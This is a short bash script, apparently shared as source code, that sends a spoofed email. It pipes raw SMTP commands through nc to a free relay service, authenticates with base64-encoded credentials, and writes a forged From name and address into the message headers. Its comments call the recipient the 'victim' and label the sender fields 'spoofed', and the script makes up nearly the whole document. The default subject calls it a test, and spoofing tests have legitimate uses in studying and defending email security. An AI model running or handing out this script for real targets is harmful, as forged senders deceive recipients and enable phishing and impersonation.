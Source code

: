
#!/bin/bash
# Mail Server Config
mail_server_ip=​"​mail.smtp2go.com​"                           # Use free plan SMTP service on smtp2go.com
mail_server_port="2525"
mail_server_username=""                                     # SMTP username
mail_server_password=""                                     # SMTP password
mail_server_legit_email=​"​noreply@smtp2go.com​"               # The `from` value of SMTP Envelope (not what victim see)
# Email params config
email_recipient=""                                          # Victims email
email_sender_email=""                                       # Spoofed sender email
email_sender_name=""                                        # Spoofed sender name
email_subject="Email Spoofing Test"                         # Message subject
email_body="This is just a test message, please ignore"     # Message content
# Start SMTP and send the email
nc ${mail_server_ip} ${mail_server_port} << EOF
ehlo
auth login
$(printf "$mail_server_username" | base64)
$(printf "$mail_server_password" | base64)
mail from:​${mail_server_legit_email}
rcpt to:${email_recipient}
data
From:​${email_sender_name}​<​${email_sender_email}​>
To:${email_recipient}
subject:${email_subject}
${email_body}
.
quit
EOF
